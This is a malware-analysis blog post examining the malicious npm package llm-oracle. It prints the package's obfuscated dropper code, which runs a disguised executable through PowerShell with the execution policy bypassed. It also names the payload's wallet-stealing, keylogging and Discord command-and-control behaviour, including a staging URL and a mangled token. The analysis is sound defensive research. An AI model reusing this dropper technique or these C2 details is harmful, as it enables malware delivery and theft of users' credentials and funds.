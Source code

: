 ```yaml
---
publishDate: 2024-11-04T00:00:00Z
title: 'Malicious Open Source Library Analysis: llm-oracle and its Payload'
image: /images/open-source-pkg-malware-analysis-llm-oracle.png
excerpt: Malware hidden in open source library packages are real. In this article, we analyse the malicious npm package llm-oracle.
tags:
  - vet
  - sbom
  - sql
  - cloud
---
```



The good folks at [socket.io](https://socket.io) published their research on
[Supply Chain Attacks Targeting LLM Application Developers: The Hidden Dangers of Fake Open Source Packages](https://socket.dev/blog/supply-chain-attacks-targeting-llm-application-developers) in which they shared their findings on discovery and analysis
of malicious npm package `llm-oracle`. This was interesting to us because
[vet](https://github.com/safedep/vet) detects a similar package, `redis-oracle`
as malicious but not `llm-oracle`. We decided to take a closer look at `llm-oracle`.

## Scanning for Malware using `vet`

[vet](https://github.com/safedep/vet) can be used to scan a package by its Package URL.

```shell
vet scan --purl pkg:/npm/redis-oracle@0.0.0
```

This results in a detection as expected

<Image src={VetRedisOracleMalwareScan} alt="vet scan result for redis-oracle" />

However, when we scan `llm-oracle`, we do not get any detection. This is not
entirely surprising because `vet` by default depends on [Package Analysis](https://github.com/ossf/package-analysis)
data for malware detection, which may not be accurate or up-to-date.

## Manual Analysis of `llm-oracle`

We decided to manually analyse `llm-oracle`. The first step was to identify
package metadata from npm registry.

```shell
npm view llm-oracle
```

This produces some useful information including author, publisher and URL
of the latest version of the package.

```shell
llm-oracle@1.0.2 | MIT | deps: 28 | versions: 3
[...]
dist
.tarball: https://registry.npmjs.org/llm-oracle/-/llm-oracle-1.0.2.tgz
[...]
dependencies:
[...]
maintainers:
- josh.weavery <josh.weavery@gmail.com>
published 3 months ago by josh.weavery <josh.weavery@gmail.com>
```

We then fetched the tarball and extracted the contents for local analysis. The
archive contained the following files:

```shell
-rw-r--r--  1 dev  wheel  16773255 Oct 26  1985 Base64Decode.ts
-rw-r--r--  1 dev  wheel       252 Oct 26  1985 HISTORY.md
-rw-r--r--  1 dev  wheel      1111 Oct 26  1985 LICENSE
-rw-r--r--  1 dev  wheel      3105 Oct 26  1985 README.md
-rw-r--r--  1 dev  wheel      2665 Oct 26  1985 index.js
-rw-r--r--  1 dev  wheel      2170 Oct 26  1985 package.json
```

The first step in any malware analysis process is to identify the file types.
The simplest way to do that is using the `file(1)` command. Surprisingly, the
first step itself gave us a strong malware indicator.

```shell
Base64Decode.ts: PE32+ executable (GUI) x86-64, for MS Windows
HISTORY.md:      ASCII text, with CRLF line terminators
LICENSE:         ASCII text, with CRLF line terminators
README.md:       ASCII text, with CRLF line terminators
index.js:        ASCII text, with CRLF line terminators
package.json:    JSON data
```

The `Base64Decode.ts` was a Windows `x86_64` executable with a `.ts` extension.
Before we jump right into the payload, we wanted to look into the dropper
`index.js` to confirm the behaviour. The `index.js` contained the following
semi-obfuscated code:

```javascript
const targetFilePath = path.join(
  process.env.LOCALAPPDATA,
  String('\u0063\u0068\u0072\u006f\u006d\u0065\u002e\u0065\u0078\u0065').replace(/\+/g, '')
);
```

```javascript
if (!fs.existsSync(targetFilePath))
{
  setTimeout(() => {
    f\u0073.copyFileSync(m\u006fd\u0065lFileP\u0061th, t\u0061rg\u0065tFileP\u0061th);
    e\u0078ec(`p\u006fwersh\u0065ll -\u0045x\u0065cut\u0069\u006fnP\u006fl\u0069cy Byp\u0061ss St\u0061rt-Pr\u006fcess -F\u0069leP\u0061th '${t\u0061rg\u0065tFileP\u0061th}' -V\u0065rb R\u0075n\u0041s`, (err\u006fr, std\u006ft, std\u0065rr) => {

    });
  }, 60000);
}
```

While advanced malware analysis techniques may differ (j/k), we used the good
old `ruby` interpreter to view the obfuscated strings

```shell
irb(main):001:0> "\u0063\u0068\u0072\u006f\u006d\u0065\u002e\u0065\u0078\u0065"
=> "chrome.exe"
```

```shell
irb(main):006:0> "f\u0073.copyFileSync(m\u006fd\u0065lFileP\u0061th, t\u0061rg\u0065tFileP\u0061th); e\u0078ec(`p\u006fwersh\u0065ll -\u0045x\u0065cut\u0069\u006fnP\u006fl
\u0069cy Byp\u0061ss St\u0061rt-Pr\u006fcess -F\u0069leP\u0061th '${t\u0061rg\u0065tFileP\u0061th}' -V\u0065rb R\u0075n\u0041s`, (err\u006fr, std\u006ft, std\u0065rr)"
=> "fs.copyFileSync(modelFilePath, targetFilePath); exec(`powershell -ExecutionPolicy Bypass Start-Process -FilePath '${targetFilePath}' -Verb RunAs`, (error, stdot, stderr)"
```

### The Payload

From `index.js`, we can identify that `Base64Decode.ts`, a Windows executable
was copied as `chrome.exe` to `%LOCALAPPDATA%` and executed using
`powershell.exe`. To understand the behaviour of the payload, we needed to get
our hands dirty with our old friend [IDA Pro](#) or its close cousin
[Ghidra](#). But unfortunately, `strings(1)` put us on a different path. We
found the following strings in the payload that indicated it was a Python
script packaged as executable using `PyInstaller`.

```shell
Cannot open PyInstaller archive from executable (%s) or external archive (%s)
Installing PYZ: Could not get sys.path!
PYINSTALLER_STRICT_UNPACK_MODE
PyInstaller: FormatMessageW failed.
PyInstaller: pyi_win32_utils_to_utf8 failed.
```

Extracting the `PyInstaller` archive from the executable gave us the following
files:

<Image src={VetLlmOracleExtractedFiles} alt="Extracted files from llm-oracle payload" />

Among these files, `OH8xADfF8q.pyc` looked interesting with strings like

```shell
'D:\work\Python-Trojan-src\OH8xADfF8q.py
```

`0H8xADfF8q.pyc` in turn decompiles to something like this

```python
import os
import discord
[...]
exec(base64.b64decode(bytes('aW1wb3J0IGJhc2U2NDtl...', 'utf-8')).decode('utf-8'))
```

The base64 encoded string contains the actual payload, which decodes to
a Python script that performs various conventional malware activities.

#### Behaviour

- Looks for crypto wallets `metamask`, `tronlink`, `trustwallet`, `coinbase`,
    `flint`, `exodus`, `binance`, `phantom`, `Xverse`, `Slope`, `Solflare`,
    `Typhon`, `nami`, `keplr`, `okx`, `bitski`, `myetherwallet`
- Look for Chrome extension data for these wallets
- Downloads configuration from `https://bayard-front-833a4.web.app/start.dat`

```json
{
  "gid": "12 __76 __201 __8416 __20 __815 __932",
  "tkn": "MT __I __3NjIwMzQ __yNjY __2NDk0 __MzY2Ng.GUg __pUL.X __Xj7OFha __7Z5r __gYZHw __tatOdp3l __i6bZ __HrDQXDCn4"
}
```

- Connects to Discord server using the Guild ID and Token
- Creates a new channel using the current username and a random string
- Starts a keylogger
- Starts taking screenshot of active window
- Sends keystroke and screenshots to the Discord channel
- Starts a full command and control over Discord

#### File Transfer

The payload checks if the file requested for transfer is greater than 25MB. If
so, it fetches configuration from `https://api.gofile.io/getServer` and uploads
to `https://{server}.gofile.io/uploadFile` using Python `requests` library.
When we tried to access the URL, we get a `404 Not Found` response, indicating
the application is probably geo-fenced or checks for some request attribute.

## Conclusion

- `llm-oracle` is a malicious package that contains a Windows executable
- The packaging and sophistication of the malware appears to be low
- Common attacker TTP was used for payload execution using `powershell.exe`,
    `PyInstaller` and `base64` encoding
- We expect AVs and EDRs to detect this payload using behavioural analysis
- Discord was used as C2 server for exfiltration and command and control
